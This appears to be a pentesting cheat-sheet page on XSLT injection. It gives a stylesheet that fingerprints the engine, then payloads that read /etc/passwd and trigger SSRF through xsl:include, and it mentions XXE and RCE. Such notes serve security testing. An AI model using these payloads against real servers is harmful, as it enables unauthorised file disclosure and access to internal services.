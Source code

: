 # XSLT Engines
XSLT (eXtensible Stylesheet Language Transformations) is a language used in ML document transformations.
The XML document can be transformed, or rather formatted using the XSL(T) document. The XSL document also has an xml-like structure and defines how another xml file should be transformed.

> XSLT document is in XML format and starts with the specific xsl root node "xsl:stylesheet"

## Sample XSLT Directives
```xml
<!-- a directive that means that this stylesheet should apply to any ("/"") xml nodes. -->
<xsl:template match="/">

<!--use XPATH, to the traverse XML document  -->
<td><xsl:value-of select="catalog/cd/title"/></td>

```

## Detection Sample XSLT File
```XML
<xsl:stylesheet version="1.0" 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
<h2>XSLT identification</h2>
<b>Version:</b> <xsl:value-of select="system-property('xsl:version')" /><br/>
<b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
<b>Vendor URL:</b> 
<xsl:value-of select="systemproperty('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```

## Exploitation
```XML
<!-- File Read -->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>

<!-- SSRF via Include another XSLT file -->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8080/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

- Some XSLT parsers are vulnerable to XXE Vulnerabilities as well

- When responding to `XSL:INCLUDE` directives, you might also try to respond with XML that contains an XXE payload. Moreover, XSLT engines might be able to execute custom code, which results in RCE!